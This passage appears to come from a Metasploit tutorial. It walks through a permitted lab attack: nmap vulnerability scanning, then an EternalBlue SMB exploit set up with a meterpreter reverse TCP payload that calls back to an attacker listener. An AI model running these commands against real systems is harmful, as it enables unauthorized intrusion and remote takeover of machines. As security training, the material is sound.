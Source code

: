 A real-world style flow (lab):

1. **Port discovery** — `db_nmap` or `auxiliary/scanner/portscan/tcp`
    
2. **Service/version detection** — `db_nmap -sV -sC` (or `nmap -sV --script=vuln`)
    
3. **Targeted vulnerability checks** — Metasploit modules or external scanners (Nessus, OpenVAS) — import results to DB
    
4. **Prioritize** by criticality: public-facing services, known CVEs, credentials reuse
    

Example `nmap` vuln scan inside msf:

```text
db_nmap -sV --script vuln 10.10.10.5
```

Then search for exploit modules matching the service:

```text
search type:exploit name:smb
search cve:2017-0144   # example search by CVE if you know it
```

---

# Exploitation — lab scenario (real-world style, step-by-step)

> Scenario: Target `10.10.10.5` has SMB open and `smb_version` reports a vulnerable version. You have permission to test.

### A. Recon & pick exploit

```text
# in msfconsole
workspace smb-assessment
db_nmap -sS -p 445 --open 10.10.10.5

# check smb info found in DB
services -S smb
```

Find exploit candidates:

```text
search type:exploit smb name:eternalblue
```

### B. Configure exploit + payload

```text
use exploit/windows/smb/ms17_010_eternalblue        # example module
show targets
set RHOSTS 10.10.10.5
set RPORT 445

# choose payload (staged vs single)
set PAYLOAD windows/x64/meterpreter_reverse_tcp

# listener settings
set LHOST 10.0.0.5      # attacker IP (lab)
set LPORT 4444
```
